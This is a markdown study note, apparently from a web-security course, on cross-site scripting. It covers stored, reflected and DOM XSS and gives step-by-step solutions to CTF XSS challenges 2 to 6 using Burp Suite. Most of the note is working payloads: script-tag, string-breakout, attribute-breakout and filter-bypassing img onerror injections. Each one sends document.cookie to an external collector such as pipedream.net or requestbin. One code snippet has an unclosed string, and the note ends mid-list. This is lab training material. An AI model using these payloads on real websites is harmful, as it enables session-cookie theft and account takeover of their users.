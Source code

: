 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```

- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
 a. CTF XSS 2
    - Error = Showing the direct sentence on HTML
```javascript
<script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
```
    - Check Attack statement on search bar
```javascript
xss');alert(1);var i=('
```
    - Check Attack => xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
    - Send to repeater the POST URL to change GET method
    - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
    - The GET URL inputs the admin visit URL bar
    - Check the flag on https://public.requestbin.com/

 b. CTF XSS 3
    - Error = Showing ID on the URL on the personal information 
    - Check the attack possibility to change the ID on Burp Suite Request
    - Check the attack statement => aaa"/><script>alert(1)</script>
    - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - Copy GET URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  c. CTF XSS 4
    - Error = In the board, it is possible to use special characters (<'">).
    - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
    - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
    - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
    - Block the long subject
    - Check the attack on the content box
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  d. CTF XSS 5
    - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
    - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
    - Using the Burp Suite, the website should be intercepted step by step
    - Create a new post and forward
    - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - During the intercept, change the filtered attack statement
    - Open the new post and copy the URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  e. CTF XSS 6
    - Error = When you log in wrong, the alert pops up.
    - Check the attack possibility in the Burp Suite
    - The POST proxy sends to Repeater and changes the method to GET
    - Check special characters and it works
    - Check the attack statement => +]');alert(1)//
    - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  f. CTF XSS Challenge 
